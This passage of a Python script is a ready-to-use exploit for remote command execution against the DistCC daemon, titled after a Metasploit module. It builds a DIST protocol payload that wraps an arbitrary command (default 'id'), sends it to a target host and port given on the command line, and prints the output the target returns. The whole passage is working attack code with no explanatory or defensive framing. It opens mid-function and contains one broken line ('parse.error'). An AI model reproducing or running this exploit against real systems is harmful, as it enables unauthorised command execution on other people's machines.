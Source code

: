 ```sh
    payload = "DIST00000001" + "ARGC%.8x" % len(args)
    for arg in args:
        payload += "ARGV%.8x%s" % (len(arg), arg)

    payload = payload.encode('UTF-8')

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

    socket.setdefaulttimeout(5)
    s.settimeout(5)
    if s.connect_ex((host, port)) == 0:
        print("[\033[32mOK\033[39m] Connected to remote service")
        try:
            s.send(payload)

            dtag = b"DOTI0000000A" + rand_text_alphanumeric(10)

            s.send(dtag)

            s.recv(24)

            print("\n--- BEGIN BUFFER ---\n")

            buff = read_std(s) # STDERR
            if buff:
                print(buff)

            buff = read_std(s) # STDOUT
            if buff:
                print(buff)

            print("\n--- END BUFFER ---\n")

            print("[\033[32mOK\033[39m] Done.")
        except socket.timeout:
            print("[\033[31mKO\033[39m] Socket Timeout")
        except socket.error:
            print("[\033[31mKO\033[39m] Socket Error")
        except Exception as error:
            print("[\033[31mKO\033[39m] Exception Raised", error)
        finally:
            s.close()		
    else:
        print("[\033[31mKO\033[39m] Failed to connect to %s on port %d" % (host, port))


parser = argparse.ArgumentParser(description='DistCC Daemon - Command Execution (Metasploit)')

parser.add_argument('-t', action="store", dest="host", required=True, help="Target IP/HOST")
parser.add_argument('-p', action="store", type=int, dest="port", default=3632, help="DistCCd listening port")
parser.add_argument('-c', action="store", dest="command", default="id", help="Command to run on target system")

try:
	argv = parser.parse_args()

	exploit(argv.command, argv.host, argv.port)
except IOError:
	parse.error

```
{% endraw %}